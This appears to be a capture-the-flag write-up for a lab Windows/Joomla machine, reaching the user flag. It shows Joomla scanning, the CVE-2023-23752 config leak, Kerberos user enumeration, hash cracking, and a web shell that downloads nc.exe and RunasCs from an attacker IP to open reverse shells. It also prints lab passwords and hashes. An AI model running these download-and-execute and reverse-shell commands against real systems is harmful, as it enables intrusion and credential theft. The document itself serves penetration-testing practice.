


User FLAG
-----

```bash
joomscan -u http://10.10.11.3 
    ____  _____  _____  __  __  ___   ___    __    _  _ 
   (_  _)(  _  )(  _  )(  \/  )/ __) / __)  /__\  ( \( )
  .-_)(   )(_)(  )(_)(  )    ( \__ \( (__  /(__)\  )  ( 
  \____) (_____)(_____)(_/\/\_)(___/ \___)(__)(__)(_)\_)
			(1337.today)
   
    --=[OWASP JoomScan
    +---++---==[Version : 0.0.7
    +---++---==[Update Date : [2018/09/23]
    +---++---==[Authors : Mohammad Reza Espargham , Ali Razmjoo
    --=[Code name : Self Challenge
    @OWASP_JoomScan , @rezesp , @Ali_Razmjo0 , @OWASP

Processing http://10.10.11.3 ...


[+] FireWall Detector
[++] Firewall not detected

[+] Detecting Joomla Version
[++] Joomla 4.2.7

[+] Core Joomla Vulnerability
[++] Target Joomla core is not vulnerable

[+] Checking Directory Listing
[++] directory has directory listing : 
http://10.10.11.3/administrator/components
http://10.10.11.3/administrator/modules
http://10.10.11.3/administrator/templates
http://10.10.11.3/images/banners


[+] Checking apache info/status files
[++] Readable info/status files are not found

[+] admin finder
[++] Admin page : http://10.10.11.3/administrator/

[+] Checking robots.txt existing
[++] robots.txt is found
path : http://10.10.11.3/robots.txt 

Interesting path found from robots.txt
http://10.10.11.3/joomla/administrator/
http://10.10.11.3/administrator/
http://10.10.11.3/api/
http://10.10.11.3/bin/
http://10.10.11.3/cache/
http://10.10.11.3/cli/
http://10.10.11.3/components/
http://10.10.11.3/includes/
http://10.10.11.3/installation/
http://10.10.11.3/language/
http://10.10.11.3/layouts/
http://10.10.11.3/libraries/
http://10.10.11.3/logs/
http://10.10.11.3/modules/
http://10.10.11.3/plugins/
http://10.10.11.3/tmp/


[+] Finding common backup files name
[++] Backup files are not found

[+] Finding common log files name
[++] error log is not found

[+] Checking sensitive config.php.x file
[++] Readable config files are not found
```

3. Joomla version 4.2.7
4. CVE-2023-23752 to obtain the api endpoint
5. Found password at `api/index.php/v1/config/application?public=true`
6. Kerbrute find 4 users

```bash
2024/03/25 21:56:07 >  [+] VALID USERNAME:       ewhite@office.htb
2024/03/25 21:57:32 >  [+] VALID USERNAME:       dmichael@office.htb
2024/03/25 21:57:43 >  [+] VALID USERNAME:       dwolfe@office.htb
2024/03/25 21:58:11 >  [+] VALID USERNAME:       tstark@office.htb
2024/03/25 21:58:11 >  [+] VALID USERNAME:       hhogan@office.htb
2024/03/25 21:58:11 >  [+] VALID USERNAME:       ppotts@office.htb
2024/03/25 22:10:21 >  Done! Tested 48705 usernames (6 valid) in 876.820 seconds
```

```bash
curl -v http://10.10.11.3/api/index.php/v1/config/application?public=true
```

smbclient to download the pcap file

```bash
smbclient '//10.10.11.3/SOC Analysis' -U 'dwolfe'
Password for [WORKGROUP\dwolfe]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed May 10 15:52:24 2023
  ..                                DHS        0  Wed Feb 14 07:18:31 2024
  Latest-System-Dump-8fbc124d.pcap      A  1372860  Sun May  7 21:59:00 2023

        6265599 blocks of size 4096. 1234461 blocks available
smb: \> get Latest-System-Dump-8fbc124d.pcap
getting file \Latest-System-Dump-8fbc124d.pcap of size 1372860 as Latest-System-Dump-8fbc124d.pcap (737,9 KiloBytes/sec) (average 737,9 KiloBytes/sec)
smb: \> exit
```

```
❯ nxc smb 10.129.230.226 -u 'dwolfe' -p 'H0lOgrams4reTakIng0Ver754!' --shares
SMB         10.129.230.226  445    DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:office.htb) (signing:True) (SMBv1:False)
SMB         10.129.230.226  445    DC               [+] office.htb\dwolfe:H0lOgrams4reTakIng0Ver754! 
SMB         10.129.230.226  445    DC               [*] Enumerated shares
SMB         10.129.230.226  445    DC               Share           Permissions     Remark
SMB         10.129.230.226  445    DC               -----           -----------     ------
SMB         10.129.230.226  445    DC               ADMIN$                          Remote Admin
SMB         10.129.230.226  445    DC               C$                              Default share
SMB         10.129.230.226  445    DC               IPC$            READ            Remote IPC
SMB         10.129.230.226  445    DC               NETLOGON        READ            Logon server share 
SMB         10.129.230.226  445    DC               SOC Analysis    READ            
SMB         10.129.230.226  445    DC               SYSVOL          READ            Logon server share 
```

Metasploit to find the Joomla users and config

```
msf6 auxiliary(scanner/http/joomla_api_improper_access_checks) > run

[+] Users JSON saved to /home/dyallo/.msf4/loot/20240325225623_default_10.10.11.3_joomla.users_847029.bin
[+] Joomla Users
============

 ID   Super User  Name        Username       Email                         Send Email  Register Date        Last Visit Date      Group Names
 --   ----------  ----        --------       -----                         ----------  -------------        ---------------      -----------
 474  *           Tony Stark  Administrator  Administrator@holography.htb  1           2023-04-13 23:27:32  2024-01-24 13:00:47  Super Users

[+] Config JSON saved to /home/dyallo/.msf4/loot/20240325225624_default_10.10.11.3_joomla.config_714713.bin
[+] Joomla Config
=============

 Setting        Value
 -------        -----
 db encryption  0
 db host        localhost
 db name        joomla_db
 db password    H0lOgrams4reTakIng0Ver754!
 db prefix      if2tx_
 db user        root
 dbtype         mysqli

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Wireshark to analyze the pcap file, found the kerberos cipher





```
$krb5pa$18$<USER>$<DOMAIN>$<CIPHER>
$krb5pa$18$tstark$OFFICE.HTB$a16f4806da05760af63c566d566f071c5bb35d0a414459417613a9d67932a6735704d0832767af226aaa7360338a34746a00a3765386f5fc
./hashcat -m 19900 ~/Documents/Security/wordlists/users/krb5.txt ../wordlists/rockyou.txt
playboy69
```

Login to Joomla with the credentials found

```
/administrator
Administrator:playboy69
```

Plugins


Templates


Web shell


```
certutil.exe -f -urlcache -split http://10.10.14.9/nc.exe nc.exe
nc.exe 10.10.14.9 4444 -e cmd
http://office.htb/index.php?cmd=certutil.exe%20-f%20-urlcache%20-split%20http://10.10.14.9/nc.exe%20nc.exe
http://office.htb/index.php?cmd=nc.exe%2010.10.14.9%204444%20-e%20cmd
```


Run winpeas

```
Version: NetNTLMv2
sh:    web_account::OFFICE:1122334455667788:7428beb2ea98d27d689620872e78712e:0101000000000000951aec1c757fda0165c4bcda3e5147a6000000000800300030000000000000000000000000300
0002be326c3e05d4883985d4423949cf81dcdb056deba22c85a17cbe4dae65b02310a00100000000000000000000000000000000000090000000000000000000000
```




```bash
sudo python3 -m http.server 80
rlwrap nc -lnvp 5555
```

```powershell
cd \users\web_account\desktop
powershell
iwr -uri http://10.10.14.3/RunasCs.exe -outfile RunasCs.exe
.\RunasCs.exe tstark playboy69 cmd.exe -r 10.10.14.9:5555
```

```powershell
cd \users\tstark\desktop
type user.txt
```

## Versions

Apache 2.4.56
PHP 8.0.28
OpenSSL 1.1.1l

## Links

- https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/joomla#rce
- https://github.com/Pushkarup/CVE-2023-23752/tree/main
- https://vbscrub.com/2020/02/27/getting-passwords-from-kerberos-pre-authentication-packets/
- https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/joomla#rce
- https://github.com/antonioCoco/RunasCs/releases
- https://weakdh.org/